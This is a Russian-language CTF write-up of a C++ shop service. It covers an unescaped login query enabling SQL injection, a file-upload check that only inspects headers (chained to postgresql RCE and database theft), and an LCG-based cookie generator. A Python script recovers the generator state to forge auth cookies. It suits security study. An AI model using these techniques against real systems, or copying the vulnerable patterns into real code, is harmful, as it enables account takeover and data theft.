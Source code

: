 # Первая уязвимость

Бэкэнд сервиса в качестве базы данных использует postgresql. Так как С++ относительно низкоуровневый язык, то сервис не пользуется никакими ORM, 
но всю работу с базой проделывает через сырые запросы с помощью библиотеки [libpq](https://www.postgresql.org/docs/current/libpq.html). Следовательно,
есть поле для разгула SQL инъекций. При этом почти все места, куда можно было бы вставить инъекцию защищены функцией экранирования PQescapeLiteral. Кроме одного места - 
[метода, используемого при авторизации пользователя](../../services/5g_shop/back/internal/src/services/UsersService.cpp#L98):
```cpp
    auto query = Format(
            HiddenStr("select * from users where login='%s' and password_hash=%s;"),
            login.c_str(),
            escapedPasswordHash.c_str()
    );

    result = PQexec(conn, query.c_str());
```

Сюда можно вставлять практически любой SQL запрос, однако на выходе есть [проверка на "количество и качество"](../../services/5g_shop/back/internal/src/services/UsersService.cpp#L105), которая несколько затрудняет 
извлечение данных через простые запросы:
```cpp
    if (PQresultStatus(result) != PGRES_TUPLES_OK || PQntuples(result) != 1) {
        auto msg = std::string(PQresultErrorMessage(result));

        CROW_LOG_ERROR << msg;

        return Result<std::shared_ptr<User>>::ofError("invalid login or password");
    }

    auto user = User::ReadFromPGResult(result);

    if (user->passwordHash != passwordHash || user->login != login) {
        return Result<std::shared_ptr<User>>::ofError("invalid login or password");
    }
```

В то же время, в сервисе есть функционал загрузки картинок, использующихся для "описания" продаваемой техники. Логика проверки того, что загружаемый файл является картинкой, [присутствует](../../services/5g_shop/back/internal/src/main.cpp#L422), однако написана с ошибкой - проверка есть только заголовка и то, только в случае, когда он есть:
```cpp
    for (auto &header: part.headers) {
        if (header.value.first == "Content-Type") {
            if (!header.value.second.starts_with("image")) {
                return response(status::BAD_REQUEST);
            }
        }
        if (header.value.first == "Content-Disposition") {
            filename = header.params["filename"];
        }
    }
```

Поэтому загрузить любой файл не составит труда. К тому же загруженные файлы будут доступны из контейнера postgresql. Поэтому есть вариант использования уязвимости - выполнить произвольный код
в postgresql, нужно только загрузить туда правильный *.so*-файл. Пример реализации можно посмотреть [здесь](./psql-rce)

Как вариант использования rce уязвимости - перезапись существующей картинки файлами postgresql, а затем обычное выкачивание этой "картинки" себе - получает полную копию базы данных любой команды.


# Вторая уязвимость

В сервисе используется самописный генератор uuid4 для кук авторизации пользователей. Генератор основан на линейном конгруэнтном методе, который легко взламывается. [UUID.cpp](services/5g_shop/back/internal/src/tools/UUID.cpp#L14)
```cpp
volatile uint8_t ab[] = {0x41, 0x3c, 0xc6, 0xf3, 0x4e, 0x5f, 0x6d};
volatile uint8_t cb[] = {0x3c, 0x41, 0x6e, 0xc6, 0xf3, 0x6d, 0x5f};
static volatile uint32_t x;
static bool initialized = false;

static char alpha[] = "0123456789abcdef";

namespace shop {
    uint16_t rand() {
        if (!initialized) {
            initialized = true;

            x = std::time(nullptr);
        }

        uint32_t a = (ab[0] << 24) | (ab[2] << 16) | (ab[4] << 8) | ab[6];
        uint32_t c = (cb[0] << 24) | (cb[2] << 16) | (cb[4] << 8) | cb[6];

        x = x * a + c;

        return static_cast<uint16_t>((x & 0xFFFF0000) >> 16);
    }
}
```

Более того, получаемые uuid почти полностью выдают стейт генератора, лишь меняя полубайты местами и выводя сгенерированные числа "в bit endian'e":
```cpp
int counters[] = {4, 2, 2, 8};

    union {
        uint16_t randvalues[8];
        uint8_t bytes[16];
    };

    randvalues[0] = rand();
    randvalues[1] = rand();
    randvalues[2] = rand();
    randvalues[3] = rand();
    randvalues[4] = rand();
    randvalues[5] = rand();
    randvalues[6] = rand();
    randvalues[7] = rand();

    int p = 0;

    for (auto i = 0; i < 4; ++i) {
        for (int j = 0; j < counters[i]; ++j) {
            uint8_t b = bytes[p++];

            ss << alpha[b & 0x0F] << alpha[(b & 0xF0) >> 4];
        }

        if (i != 3) {
            ss << "-";
        }
    }

    return ss.str();
```

Поэтому восстановить состояние можно, создав пользователя и "посмотрев" на его куку. После восстановленного состояния можно генерировать авторизационные куки. Чтобы не перебирать пары (пользователь, кука) можно 
воспользоваться сортировкой всех пользователей по полю `created_at` из метода `/api/users/list`. Код получения состояния генератора может выглядеть [так:](./broken-uuid/sploit.py)
```python
import requests
import uuid


r = requests.post(f'http://localhost:4040/api/users', json={'login': str(uuid.uuid4()), 'password_hash': str(uuid.uuid4()), 'credit_card_info': 'some card'})

if r.status_code != 201:
    print(r, r.content)
    exit(0)


cookie = r.json()['auth_cookie']

print(cookie)

x1 = int(''.join(reversed(cookie[0:4])), 16)
x2 = int(''.join(reversed(cookie[4:8])), 16)

print(hex(x1), hex(x2))

# параметры генератора из бинарника сервиса
a = 0x41c64e6d
c = 0x3c6ef35f

low = 0
lows = []
while low < (1 << 16):
    if ((((low | (x1 << 16)) * a + c) & 0xFFFF0000) >> 16) == x2:
        lows.append(low)
    low += 1


for low in lows:
    x = (x1 << 16) | low
    def rand():
        global x
        x = (x * a + c) & 0xFFFFFFFF
        return (x & 0xFFFF0000) >> 16
    b = [x, rand(), rand(), rand(), rand(), rand(), rand(), rand()]
    s = ''
    for l in b:
        s += ''.join(reversed((hex(l)[2:]).zfill(4)))
    print(x, s)

    if s[4:] == cookie.replace('-', ''):
        print('found! current state is ', x, a, c)
```

